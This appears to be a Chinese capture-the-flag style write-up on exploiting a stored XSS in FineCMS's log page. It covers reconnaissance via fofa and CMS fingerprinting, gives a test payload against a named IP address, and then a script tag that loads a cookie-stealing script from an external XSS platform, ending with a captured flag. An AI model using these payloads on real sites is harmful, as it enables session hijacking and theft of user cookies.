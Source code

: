 ```yaml
---
date: "2020-12-25T00:00:00Z"
description: null
keywords: 安全, XSS, fofa
tags:
- 安全
- XSS
title: 存储型 XSS 利用
---
```


# 存储型XSS


## 0x00 写在前面

1.  任何事情切忌脑壳铁， **多听、多看、多梳理**才能快速构建**自己的知识树** ， 因而提高自己的快速检索能力。

2. 好文推荐 [循序渐进理解：跨源跨域，再到 XSS 和 CSRF - 双猫](https://catcat.cc/post/2020-06-23/)


## 信息收集

### fofa

进入 `https://fofa.so` 搜索网站地址

![](https://nc0.cdn.zkaq.cn/md/8461/e05f59b0f47fb0b744e9343f76d8d451_61120.png)

![](https://nc0.cdn.zkaq.cn/md/8461/93284c8f1a213159d3ebcf41fbfc4f6d_36878.png)


整理信息：

操作系统： windows
Web容器： `apache/2.4.23/(win32)`
开发语言版本: `php/5.4.45`


### cms 查询

**开发调试工具**

![](https://nc0.cdn.zkaq.cn/md/8461/34bef83517b77ed6b3e12748e32dac0e_21546.png)


**cms 指纹工具**

这里说一下小插曲， 有些在线 cms 网站装怪， 只能识别域名， IP加端口就不行。

这里， 可以使用 https://www.freenom.com/zh/index.html 搞一个免费域名绑定上， 就可以识别了。

![](https://nc0.cdn.zkaq.cn/md/8461/ed9aa6076073872b4747d44bd04ba484_36374.png)

**yunsee** : https://www.yunsee.cn/ ， 收费， 还不能直接给钱。

其他 github 上一大堆指纹识别工具。

假设， 我们通过工具识别出来了是 **finecms**


## Cms 渗透测试

### 已有漏洞搜索与利用

> 以铜为鉴，可以正衣冠，以人为鉴，可以知得失，以史为鉴，可以知兴替

搜索 **finecms 漏洞** ，得到信息还不少。类似于， sql注入， xss， 上传解析漏洞等比比皆是。

**做事踩坑是必然的， 但遇事不要死脑经。 **
**认真阅读和分析前辈的思路，才能快速拓宽视野，实现厚积薄发**

+ 参考资料:
	+ [Finecms 存储型XSS漏洞 - 查看日志 XSS](https://www.jianshu.com/p/200ea62486d9)
	+ [代码审计| FineCMS的GetShell姿势 - 查看留言 XSS](https://www.freebuf.com/column/165269.html)


### 确认 XSS 是否利用

根据文章指出，当访问不存在页面时，可能在日志触发存储型 XSS 利用漏洞。


**1. 快速测试**

通过浏览器构造页面访问请求，确认 XSS 漏洞是否存在

```bash
http://59.63.200.79:8082/index.php?c=mail&m=test123<img src=1.png onerror=alert(1)>
```

![](https://nc0.cdn.zkaq.cn/md/8461/c138aa4cd55253f5c2e268c0b2d90aa0_14010.png)

经确认， 该 XSS 漏洞可能依旧可以利用。


### 构建 XXS cookie 窃取语句

注册 XSS 平台账户
+ https://xss.pt/xss.php

**1. 创建项目**

**2. 生成偷cookie语句**


![](https://nc0.cdn.zkaq.cn/md/8461/65ec2a8b41853ff390c2e669d45dba7d_41229.png)

这里由于是后台日志，非勤劳的站长，可能并不会时时查看日志。 因此， **keepsession** 打开， 等待鱼儿上钩。

当然， 也可以去喂鱼。

```html
<sCRiPt sRC=//xss.pt/94ST></sCrIpT>
```

**3. 利用**

在浏览器输入渗透测试语句

```
http://59.63.200.79:8082/index.php?c=mail&m=test12123<sCRiPt sRC=//xss.pt/xxxxx></sCrIpT>
```

![](https://nc0.cdn.zkaq.cn/md/8461/aaa6e6d9ad2eb8995f2f7eeac715d6f7_35755.png)

**4. 收网**

等待结果

看到有两条鱼儿上钩
![](https://nc0.cdn.zkaq.cn/md/8461/62b5b99e996a227d189fc5a50d7bd738_66171.png)

获取 flag

```
flag=zKaQ-01sdfDCo0
```

